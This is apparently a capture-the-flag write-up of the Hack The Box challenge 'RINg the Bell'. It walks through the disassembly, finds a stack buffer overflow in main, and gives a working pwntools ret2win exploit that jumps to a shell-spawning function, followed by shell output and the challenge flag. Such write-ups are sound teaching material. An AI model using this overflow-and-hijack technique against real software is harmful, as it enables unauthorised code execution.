

- **Category:** _Reverse_
- **Tools:** _(pwndbg, python)_

### Info of the binary

```sh
ring_the_bell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=be56d5213e9b1294097e8ed137db3c8d7f86d0c6, for GNU/Linux 3.2.0, not stripped

```

```sh
[*] '/home/cmos/Documents/CTF/2026/HTB/RINg the Bell/ring_the_bell'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

So, we can see it has no PIE, and no Canary. Just with that we have an idea of how the challenge is.

### Testing the binary

```sh
…/HTB/RINg the Bell ❯ ./ring_the_bell
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠿⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠁⢤⡄⠘⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠟⠁⠀⠠⡈⠻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠇⠀⠀⠀⠀⠹⣆⠹⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡏⠀⠀⠀⠀⠀⠀⢻⡆⢻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠀⠀⠀⠀⠀⠀⠀⢸⣷⠈⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⠁⣿⣿⢯⣿⣿⣿⠃⠀⠀⠀⠀⠀⠀⠀⠸⣿⡄⠸⣿⣿⣿⡽⣿⣿⡈⣿⣿
⣿⡇⢸⣿⡏⢸⣿⡿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⢻⣿⣄⠘⢿⣿⡇⢹⣿⡇⢸⣿
⣿⡇⠈⣿⠀⢸⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⣿⣿⣆⠈⣿⡇⠀⣿⠃⢸⣿
⣿⡇⠀⣿⡀⠸⣿⣦⣤⣀⣀⡀⠀⠀⠀⠀⠀⠀⢀⣈⣉⣥⣴⣿⠇⠀⣿⠀⢸⣿
⣿⣷⠀⢸⣧⠀⢻⣿⣿⣉⣙⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡟⠀⣸⡇⠀⣼⣿
⣿⣿⣇⠈⢿⣧⡀⢻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡟⢀⣴⡿⠁⣸⣿⣿
⣿⣿⣿⣦⠈⢻⣿⣦⣙⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣋⣴⣿⡟⠁⣴⣿⣿⣿
⣿⣿⣿⣿⣷⣄⡙⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⢋⣠⣾⣿⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣾⣽⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣯⣷⣿⣿⣿⣿⣿⣿⣿


[Garran Voss] Rin! Ring the bell to call for reinforcements!

[Rin]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

[Garran Voss] D-d-did they hear us..?
Segmentation fault         (core dumped) ./ring_the_bell

```

We can see a segmentation fault. Let's exploit it.

With pwndbg and the command `info functions` we can see

```sh
0x00000000004012ed  info
0x0000000000401423  fail
0x0000000000401577  success
0x00000000004016cb  cls
0x0000000000401708  read_num
0x0000000000401762  banner
0x000000000040176d  bell
0x000000000040179b  main
0x000000000040182a  setup
```

After disassemble the `bell` function, I see this

```sh
pwndbg> disass bell
Dump of assembler code for function bell:
   0x000000000040176d <+0>:	endbr64
   0x0000000000401771 <+4>:	push   rbp
   0x0000000000401772 <+5>:	mov    rbp,rsp
   0x0000000000401775 <+8>:	mov    edx,0x0
   0x000000000040177a <+13>:	lea    rax,[rip+0x8de]        # 0x40205f
   0x0000000000401781 <+20>:	mov    rsi,rax
   0x0000000000401784 <+23>:	lea    rax,[rip+0x8d7]        # 0x402062
   0x000000000040178b <+30>:	mov    rdi,rax
   0x000000000040178e <+33>:	mov    eax,0x0
   0x0000000000401793 <+38>:	call   0x401190 <execl@plt>
   0x0000000000401798 <+43>:	nop
   0x0000000000401799 <+44>:	pop    rbp
   0x000000000040179a <+45>:	ret
End of assembler dump.
pwndbg> x/s 0x40205f
0x40205f:	"sh"
pwndbg> x/s 0x402062
0x402062:	"/bin/sh"

```
I noticed it exec a shell. So logically we should reach there.

In the main function we saw this

```sh
   0x00000000004017f9 <+94>:	lea    rax,[rbp-0x20]
   0x00000000004017fd <+98>:	mov    edx,0x60
   0x0000000000401802 <+103>:	mov    rsi,rax
   0x0000000000401805 <+106>:	mov    edi,0x0
   0x000000000040180a <+111>:	call   0x401150 <read@plt>
```

In other words 
```c
char buffer[32];  // [rbp-0x20] are 32 bytes (0x20 = 32 decimal)
read(0, buffer, 0x60);
```
The program uses read(0, buffer, 0x60) but buffer is only 32 bytes (0x20). Since read() doesn't add a null terminator and blindly writes up to 96 bytes, we can overflow the buffer and overwrite adjacent stack data — including the saved RBP and return address. This lets us hijack control flow.

So I tested this input

```py
>>> "A"*40+"B"*8
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB'
```
```sh
 R12  0x7fffffffc1e8 —▸ 0x7fffffffca26 ◂— '/home/cmos/Documents/CTF/2026/HTB/RINg the Bell/ring_the_bell'
 R13  1
 R14  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0
 R15  0x403d80 (__do_global_dtors_aux_fini_array_entry) —▸ 0x401260 (__do_global_dtors_aux) ◂— endbr64
 RBP  0x4141414141414141 ('AAAAAAAA')
 RSP  0x7fffffffc0b8 ◂— 'BBBBBBBB\n'
 RIP  0x401829 (main+142) ◂— ret
───────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────────────────────────────
 ► 0x401829 <main+142>    ret                                <0x4242424242424242>
```



So I just wrote this exploit


```py
from pwn import *

context.arch = 'amd64'

elf = ELF('./ring_the_bell')

p = process('./ring_the_bell')

payload = b'A' * 40
payload += p64(elf.symbols['bell'])

p.recvuntil(b'[Rin]: ')
p.send(payload)

p.interactive()
```

And we have a shell. So we just we have to do it in the server.

```sh
…/HTB/RINg the Bell ❯ python3 exploit.py
[*] '/home/cmos/Documents/CTF/2026/HTB/RINg the Bell/ring_the_bell'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Starting local process './ring_the_bell': pid 84252
[*] Switching to interactive mode

[Garran Voss] D-d-did they hear us..?
$ whoami
cmos
$

```

And that's all 

### Flag

```sh
HTB{R1ng4_R1ng4_R1111111n6_fcf9706d884fc1bb866fa2a894d0cc38}
```